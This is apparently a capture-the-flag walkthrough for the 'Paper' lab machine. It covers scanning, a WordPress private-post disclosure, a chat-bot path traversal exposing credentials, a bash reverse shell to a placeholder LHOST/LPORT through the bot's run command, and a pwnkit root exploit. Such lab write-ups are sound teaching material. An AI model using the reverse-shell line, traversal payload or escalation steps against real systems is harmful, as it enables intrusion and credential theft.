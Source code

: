 # Paper

First as usual, `nmap`.

```
# Nmap 7.92 scan initiated Sun Feb  6 14:05:33 2022 as: nmap -vvv -p 22,80,443 -sCV -oA init 10.129.149.123
Nmap scan report for 10.129.149.123
Host is up, received syn-ack (0.25s latency).
Scanned at 2022-02-06 14:05:41 +07 for 26s

PORT    STATE SERVICE  REASON  VERSION
22/tcp  open  ssh      syn-ack OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcZzzauRoUMdyj6UcbrSejflBMRBeAdjYb2Fkpkn55uduA3qShJ5SP33uotPwllc3wESbYzlB9bGJVjeGA2l+G99r24cqvAsqBl0bLStal3RiXtjI/ws1E3bHW1+U35bzlInU7AVC9HUW6IbAq+VNlbXLrzBCbIO+l3281i3Q4Y2pzpHm5OlM2mZQ8EGMrWxD4dPFFK0D4jCAKUMMcoro3Z/U7Wpdy+xmDfui3iu9UqAxlu4XcdYJr7Iijfkl62jTNFiltbym1AxcIpgyS2QX1xjFlXId7UrJOJo3c7a0F+B3XaBK5iQjpUfPmh7RLlt6CZklzBZ8wsmHakWpysfXN
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE/Xwcq0Gc4YEeRtN3QLduvk/5lezmamLm9PNgrhWDyNfPwAXpHiu7H9urKOhtw9SghxtMM2vMIQAUh/RFYgrxg=
|   256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKdmmhk1vKOrAmcXMPh0XRA5zbzUHt1JBbbWwQpI4pEX
80/tcp  open  http     syn-ack Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods:
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http syn-ack Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods:
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US/emailAddress=root@localhost.localdomain
| Subject Alternative Name: DNS:localhost.localdomain
| Issuer: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US/organizationalUnitName=ca-3899279223185377061/emailAddress=root@localhost.localdomain
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-07-03T08:52:34
| Not valid after:  2022-07-08T10:32:34
| MD5:   579a 92bd 803c ac47 d49c 5add e44e 4f84
| SHA-1: 61a2 301f 9e5c 2603 a643 00b5 e5da 5fd5 c175 f3a9
| -----BEGIN CERTIFICATE-----
| MIIE4DCCAsigAwIBAgIIdryw6eirdUUwDQYJKoZIhvcNAQELBQAwgY8xCzAJBgNV
| BAYTAlVTMRQwEgYDVQQKDAtVbnNwZWNpZmllZDEfMB0GA1UECwwWY2EtMzg5OTI3
| OTIyMzE4NTM3NzA2MTEeMBwGA1UEAwwVbG9jYWxob3N0LmxvY2FsZG9tYWluMSkw
| JwYJKoZIhvcNAQkBFhpyb290QGxvY2FsaG9zdC5sb2NhbGRvbWFpbjAeFw0yMTA3
| MDMwODUyMzRaFw0yMjA3MDgxMDMyMzRaMG4xCzAJBgNVBAYTAlVTMRQwEgYDVQQK
| DAtVbnNwZWNpZmllZDEeMBwGA1UEAwwVbG9jYWxob3N0LmxvY2FsZG9tYWluMSkw
| JwYJKoZIhvcNAQkBFhpyb290QGxvY2FsaG9zdC5sb2NhbGRvbWFpbjCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBAL1/3n1pZvFgeX1ja/w84jNxT2NcBkux
| s5DYnYKeClqncxe7m4mz+my4uP6J1kBP5MudLe6UE62KFX3pGc6HCp2G0CdA1gQm
| 4WYgF2E7aLNHZPrKQ+r1fqBBw6o3NkNxS4maXD7AvrCqkgpID/qSziMJdUzs9mS+
| NTzWq0IuSsTztLpxUEFv7T6XPGkS5/pE2hPWO0vz/Bd5BYL+3P08fPsC0/5YvgkV
| uvFbFrxmuOFOTEkrTy88b2fLkbt8/Zeh4LSdmQqriSpxDnag1i3N++1aDkIhAhbA
| LPK+rZq9PmUUFVY9MqizBEixxRvWhaU9gXMIy9ZnPJPpjDqyvju5e+kCAwEAAaNg
| MF4wDgYDVR0PAQH/BAQDAgWgMAkGA1UdEwQCMAAwIAYDVR0RBBkwF4IVbG9jYWxo
| b3N0LmxvY2FsZG9tYWluMB8GA1UdIwQYMBaAFBB8mEcpW4ZNBIaoM7mCF/Z+7ffA
| MA0GCSqGSIb3DQEBCwUAA4ICAQCw4uQfUe+FtsPdT0eXiLHg/5kXBGn8kfJZ45hP
| gcuwa5JfAQeA3JXx7piTSiMMk0GrWbqbrpX9ZIkwPnZrN+9PV9/SNCEJVTMy+LDQ
| QGsyqwkZpMK8QThzxRvXvnyf3XeEFDL6N4YeEzWz47VNlddeqOBHmrDI5SL+Eibh
| wxNj9UXwhEySUpgMAhU+QtXk40sjgv4Cs3kHvERvpwAfgRA7N38WY+njo/2VlGaT
| qP+UekP42JveOIWhf9p88MUmx2QqtOq/WF7vkBVbAsVs+GGp2SNhCubCCWZeP6qc
| HCX0/ipKZqY6zIvCcfr0wHBQDY9QwlbJcthg9Qox4EH1Sgj/qKPva6cehp/NzsbS
| JL9Ygb1h65Xpy/ZwhQTl+y2s+JxAoMy3k50n+9lzCFBiNzPLsV6vrTXCh7t9Cx07
| 9jYqMiQ35cEbQGIaKQqzguPXF5nMvWDBow3Oj7fYFlCdLTpaTjh8FJ37/PrhUWIl
| Li+WW8txrQKqm0/u1A41TI7fBxlUDhk6YFA+gIxX27ntQ0g+lLs8rwGlt/o+e3Xa
| OfcJ7Tl0ovWa+c9lWNju5mgdU+0v4P9bqv4XcIuyE0exv5MleA99uOYE1jlWuKf1
| m9v4myEY3dzgw3IBDmlYpGuDWQmMYx8RVytYN3Z3Z64WglMRjwEWNGy7NfKm7oJ4
| mh/ptg==
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb  6 14:06:07 2022 -- 1 IP address (1 host up) scanned in 34.37 seconds
```

The websites on ports 80 and 443 seem to be the same with the only difference being the SSL certificate which doesn't reveal a domain name either with `localhost.localdomain` set. The pages' source code don't reveal anything special either. In trying to check for file extensions, I found that `index.php` returns a different page from `index.html` and other obviously non-existent pages so I ran `gobuster` with the `.php` extension. I only ran it on the `https` site since I later found a WordPress site on port 80.

```sh
$ gobuster dir -u https://10.129.149.123/ -k -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php -r

/manual               (Status: 200) [Size: 9164]
```

Nothing useful. Checking the headers, I also found the domain name `office.paper` which I added to my `/etc/hosts`.

```sh
$ curl -Is http://10.129.149.123/index.php
HTTP/1.1 404 Not Found
Date: Sun, 06 Feb 2022 07:35:39 GMT
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Powered-By: PHP/7.2.24
X-Backend-Server: office.paper
Content-Type: text/html; charset=UTF-8
```

This time, visiting `http://office.paper/` returns a new page while `https://office.paper/` returns the same page as when using the IP address. A quick look at `http://office.paper/` shows that it's a WordPress site so we run `wpscan` on it.

```sh
$ wpscan --url 'http://office.paper/' -e ap,at,tt,cb,dbe,u1-10,m1-10 --plugins-detection mixed
```

As a result, 3 usernames were found: prisonmike, nick, and creedthoughts. Also, the Wordpress version is `5.2.3` and the plugin `stops-core-theme-and-plugin-updates` version `9.0.9` is found.

Browsing the site, the post "Feeling Alone!" has an interesting comment by nick:

> Michael, you should remove the secret content from your drafts ASAP, as they are not that secure as you think!

Looks like there's a draft to be found containing some secret content.

The post "Hello Scranton!" has a comment by creedthoughts referencing the page `http://www.creedthoughts.gov.www\creedthoughts`. A quick search shows the page `https://creedthoughtsgov.com/` which contains the same URL on its frontpage, though it just seems to be a gimmick and not an OSINT thing.

After some looking around, I decided to fuzz for subdomains.

```sh
$ ffuf -u http://office.paper/ -H "Host: FUZZ.office.paper" -w ~/tools/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fc 403
chat                    [Status: 200, Size: 223163, Words: 13014, Lines: 508, Duration: 355ms]
```

I then added `chat.office.paper` to `/etc/hosts` and investigate the chat site. Without credentials though, not much can be found.

Going back to the `wpscan` results, I tried looking for exploits for WordPress 5.2.3 and found an interesting entry.

```sh
$ searchsploit wordpress 5.2.3
------------------------------------------------------------------------- ------------------------------
 Exploit Title                                                           |  Path
------------------------------------------------------------------------- ------------------------------
WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts  | multiple/webapps/47690.md
... <snip> ...
```

Simply by going to `http://office.paper/?static=1` as suggested, we can find several private posts, among which is the following.

```
Inside the FBI, Agent Michael Scarn sits with his feet up on his desk. His robotic butler Dwigt….

# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY

# I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.

# Also, stop looking at my drafts. Jeez!
```

With the URL, we can register as a user. After registering and logging in, we can check out the "general" chat, inside which we have the bot `recyclops` whom we can directly message and use some bot commands on. It's stated that file access is limited to the Sales folder but we can easily traverse out using `../` like with `file ../../../etc/passwd` (`recyclops` can be omitted in direct messages).

Looking around, `../hubot/.env` contains credentials.

```sh
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
```

I tried logging into `chat.office.paper` as `recyclops` but immediately got logged out because it's a bot. Looking up "hubot", we can find its [source code](https://github.com/hubotio/hubot) and [the wiki for scripting it](https://hubot.github.com/docs/scripting/), thus finding that the commands are in `../hubot/scripts/`. Among the scripts is `run.js` which allows us to execute system commands. We can easily get a reverse shell as dwight by setting up a listener and running `run bash -c 'exec bash -i &>/dev/tcp/LHOST/LPORT <&1'`. After uploading my SSH key and running `chmod 600 authorized_keys`, I got a nice SSH shell.

Trying `sudo -l`, I found that dwight's password is the previously found `Queenofblad3s!23` but unfortunately he isn't allowed to run `sudo`.
Checking listening ports ...

```sh
[dwight@paper ~]$ ss -lntp
State     Recv-Q    Send-Q        Local Address:Port          Peer Address:Port    Process
LISTEN    0         128               127.0.0.1:3306               0.0.0.0:*
LISTEN    0         32            192.168.122.1:53                 0.0.0.0:*
LISTEN    0         128                 0.0.0.0:22                 0.0.0.0:*
LISTEN    0         128               127.0.0.1:48320              0.0.0.0:*
LISTEN    0         128               127.0.0.1:8000               0.0.0.0:*        users:(("node",pid=2375,fd=18))
LISTEN    0         70                127.0.0.1:33060              0.0.0.0:*
LISTEN    0         128               127.0.0.1:27017              0.0.0.0:*
LISTEN    0         128                       *:80                       *:*
LISTEN    0         128                    [::]:22                    [::]:*
LISTEN    0         128                       *:443                      *:*
```

Port 3306 is MySQL, Port 48320 is just the `http://chat.office.paper/` site, port 8000 is some unknown HTTP server, port 33060 is some unknown service, and port 27017 is MongoDB.

Looking at dwight's home, there's the very conspicuous `pk.sh` which seems to be an exploit for pwnkit (CVE-2021-4034). I tried running [this exploit](https://github.com/arthepsy/CVE-2021-4034) but it didn't work. Running it again though, followed by `su - hacked` and `sudo su` got me root. I've also tried resetting and rerunning the exploit twice and the first run would either fail to create the user `hacked` or complain `sudo: you do not exist in the passwd database` when `sudo su` is run. While seemingly unstable, `pk.sh` got us an easy root.
